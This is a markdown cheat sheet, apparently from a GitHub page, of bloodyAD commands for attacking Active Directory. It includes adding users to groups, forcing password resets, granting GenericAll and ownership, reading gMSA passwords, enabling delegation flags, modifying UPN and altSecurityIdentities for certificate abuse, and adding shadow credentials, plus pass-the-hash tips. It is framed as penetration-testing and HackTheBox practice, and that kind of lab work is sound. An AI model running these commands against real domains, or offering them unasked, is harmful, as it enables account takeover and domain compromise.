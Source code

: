 # BloodyAD Common Commands

### Retrieve User Information
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username
```
### Add User To Group
```
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```
### Change Password
```
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```
### Give User GenericAll Rights
```
bloodyAD --host $dc -d $domain -u $username -p $password add genericAll $DN $target_username
```
### WriteOwner
```
bloodyAD --host $dc -d $domain -u $username -p $password set owner $target_group $target_username
```
### ReadGMSAPassword
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username --attr msDS-ManagedPassword
```
### Enable a Disabled Account
```
bloodyAD --host $dc -d $domain -u $username -p $password remove uac $target_username -f ACCOUNTDISABLE
```
### Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag
```
bloodyAD --host $dc -d $domain -u $username -p $password add uac $target_username -f TRUSTED_TO_AUTH_FOR_DELEGATION
```
### Modify UPN
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $old_upn userPrincipalName -v $new_upn
```
Check if it has been modified
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_user --attr userPrincipalName
```
### MachineAccountQuota
Enumerate MachineAccountQuota
```
bloodyAD --host $dc -d $domain -u $username -p $password get object 'DC=dc,DC=dc' --attr ms-DS-MachineAccountQuota
```
Set MachineAccountQuota value to 10
```
bloodyAD --host $dc -d $domain -u $username -p $password set object 'DC=dc,DC=dc' ms-DS-MachineAccountQuota -v 10
```
### Modify mail
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user mail -v newmail@test.local
```
### Modify the altSecurityIdentities attribute (ESC14B)
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user altSecurityIdentities -v 'X509:<RFC822>user@test.local'
```
### Find Writable Attributes
```
bloodyAD --host $dc -d $domain -u $username -p $password get writable --detail
```
### Shadow Credentials
```
bloodyAD --host $dc -d $domain -u $username -p $password add shadowCredentials $target
```
### Notes
- To use Kerberos, obtain a TGT, export it, and then pass `-k` instead of providing a username and password
- You can pass a user hash instead of a password using `-p :hash` 
- Specify format for '--password' or '-k <keyfile>' using `-f`, e.g. `-f rc4`
### Resources
- https://github.com/CravateRouge/bloodyAD/wiki/User-Guide
- https://0xdf.gitlab.io/2024/03/30/htb-rebound.html
- https://0xdf.gitlab.io/2025/04/26/htb-vintage.html
- https://www.thehacker.recipes/
### Machines To Practice
- Redelegate (Vulnlab)
- Vintage (HackTheBox)
- Infiltrator (HackTheBox)
- Rebound (HackTheBox)
- Absolute (HackTheBox)
- Certified (HackTheBox)
